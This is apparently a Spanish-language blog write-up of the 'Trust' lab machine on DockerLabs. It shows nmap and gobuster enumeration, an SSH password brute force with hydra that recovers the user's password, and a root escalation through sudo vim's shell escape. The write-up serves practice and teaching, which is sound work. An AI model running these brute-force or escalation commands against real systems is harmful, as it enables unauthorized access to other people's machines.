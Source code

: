 ```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux vulnerada a travez de un ataque de fuerza bruta"
date: 2024-05-17
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta.

# Herramientas

    nmap
    hydra

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que se encuentran 2 puertos abiertos el 22 que corresponde al servicio de SSH y el puerto 80 correspondiente al servicio web Apache

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 12:22 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

Procedo a investigar el puerto 80 en el navegador ingreso la siguiente URL `http://172.17.0.2` en el cual está la pagina por default del servicio Apache

![trust000](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/trust/trust000.png)

La pagina no tiene nada mas interesante, por lo tanto procedo a realizar fuzzing web a ver si me encuentro con algo mas

```bash
gobuster dir -n 404 -t 64 -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x txt,py,sh,php
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

Finalizado el fuzzing se observa que hay un directorio secret.php

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,py,sh,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1038215 / 1038220 (100.00%)
===============================================================
Finished
===============================================================
```

procedo a ver que hay en ese directorio ingresando la siguiente url en el navegador `http://172.17.0.2/secret.php`

![secret.php](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/trust/002trust.png)

Me encuentro con el siguiente mensaje "Hola Mario, Esta web no se puede hackear." no me encuentro con nada mas en esta web, por lo tanto tengo un posible usuario llamado Mario, el cual voy a usar para hacer fuerza bruta al servicio SSH con la herramienta Hydra

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                               |
| --------- | ----------------------------------------- |
| -l        | usario                                    |
| -P        | carga varias contraseñas desde un ARCHIVO |
| -t        | cantidad de hilos en paralelo             |
| ssh       | protocolo a atacar                        |

El ataque de fuerza bruta confirma el usuario mario y muestra la contraseña chocolate

```css
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 12:48:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 12:48:54
```

con estos datos procedo a realizar la intrusión en el equipo mediante el servicio SSH

# 2- Intrusión

Conexión a la maquina victima por el servicio SSH

```bash
ssh mario@172.17.0.2
```

al solicitar la contraseña ingreso `chocolate` y me permite el acceso a la maquina victima con el usuario mario intrusión realizada

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/trust/003trust.png)

# 3- Escalada de privilegios

Llego de momento de escalar privilegios y ser el usuario root, para ello voy a ejeutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/trust/004trust.png)

Se observa que se puede ejecutar el binario `/usr/bin/vim` como el usuario **root**. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

ejecutando el siguiente comando vamos a tener acceso a root

```bash
sudo vim -c ':!/bin/sh'
```

Listo! se logró escalar privilegios al usuario root

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/trust/005trust.png)

